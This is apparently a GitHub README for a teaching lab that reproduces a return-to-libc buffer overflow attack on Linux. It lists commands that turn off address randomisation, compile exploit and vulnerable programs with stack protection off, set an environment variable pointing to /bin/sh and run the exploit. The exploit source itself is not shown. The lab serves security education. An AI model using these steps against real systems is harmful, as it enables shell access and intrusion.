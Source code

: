 # Buffer-overflow-attack-Return-to-libc

Execute the commands in order to reproduce the Return-to-libc buffer overflow attack (Linux terminal):

sudo sysctl -w kernel.randomize_va_space=0

sudo gcc -m32 -fno-stack-protector -z noexecstack -o exploit exploit.c

cat vulnerable.c

sudo gcc -m32 -fno-stack-protector -z noexecstack -o vulnerable vulnerable.c

export MYSHELL=/bin/sh

env | grep MYSHELL

gdb vulnerable

./exploit

./vulnerable
